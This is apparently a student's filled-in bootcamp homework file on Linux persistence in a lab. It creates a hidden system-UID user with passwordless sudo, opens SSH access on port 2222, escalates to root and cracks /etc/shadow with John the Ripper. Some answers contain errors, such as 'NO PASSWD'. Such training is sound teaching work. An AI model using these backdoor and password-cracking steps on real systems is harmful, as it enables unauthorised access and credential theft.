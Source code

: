 # CyberSecurity_Bootcamp_HW
Assignments from UofMN Cybersecurity Bootcamp
# Week 6 Homework Submission File: Advanced Bash - Owning the System
Please edit this file by adding the solution commands on the line below the prompt.
Save and submit the completed file for your homework submission.

## Step 1: Shadow People


Create a secret user named sysd. Make sure this user doesn't have a home folder created:

    Your solution command here: 
    sudo adduser sysd 


Give your secret user a password:

    Your solution command here:
    sudo passwd sysd


Give your secret user a system UID < 1000:

    Your solution command here:
    sudo usermod -u 987 sysd


Give your secret user the same GID:

    Your solution command here
    sudo groupmod -g 987 sysd


Give your secret user full sudo access without the need for a password:

    Your solution command here:
    sudo visudo
    sysd ALL=(ALL:ALL) NO PASSWD:ALL


Test that sudo access works without your password:
    Your bash commands here:
    sudo -l 


## Step 2: Smooth Sailing

Edit the sshd_config file:
    Your bash commands here:
    sudo nano /etc/ssh/sshd_config


## Step 3: Testing Your Configuration Update

Restart the SSH service:

    Your solution command here:
    sudo systemctl restart ssh


Exit the root account:

    Your solution command here:
    exit 


SSH to the target machine using your sysd account and port 2222:
    Your solution command here:
    ssh sysadmin@192.168.6.105 -p 2222


Use sudo to switch to the root user:
    Your solution command here:
    sudo su


## Step 4: Crack All the Passwords


SSH back to the system using your sysd account and port 2222:
    Your solution command here:
    ssh sysd@192.168.6.105 -p 2222



Escalate your privileges to the root user. Use John to crack the entire /etc/shadow file:
    Your solution command here:
    sudo su
    john /etc/shadow
